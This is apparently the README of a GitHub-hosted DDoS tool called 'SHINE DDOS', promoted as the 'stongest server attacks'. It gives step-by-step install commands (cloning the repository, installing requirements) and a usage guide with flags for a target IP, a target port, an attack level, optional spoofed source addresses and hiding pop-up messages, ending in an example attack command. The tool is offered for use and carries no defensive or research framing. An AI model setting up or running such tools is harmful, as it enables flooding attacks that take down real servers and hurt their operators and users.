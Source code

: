 #  SHINE DDOS

Stongest Server 4ttacks from TEAM SYNC LEADER 



## installing

1 . <code> pkg install python </code>
2 . <code> git clone https://github.com/T3AmSyNc/kashira.git</code>
3 . <code> cd  kashira </code> 
4 . <code> pip install -r installing.txt </code>
5 . <code> python shineddos.py -h  </code>




### Command information:
    Use:
    
    $ <code>python  shineddos.py [-i] [-p] [-l]    </code>     

│         -h : HELP                             
│         -i : Ip Server                          
│         -p : T4rget Port                        
│         -l : Att4ck level                
│         -f : For pseudo-IP optional                           
│         -d : Hide and reduce pop-up messages                         
 Example:
 
 <code> python  shineddos.py -i 12.345.678.90 -p 80 -l  3 </code>


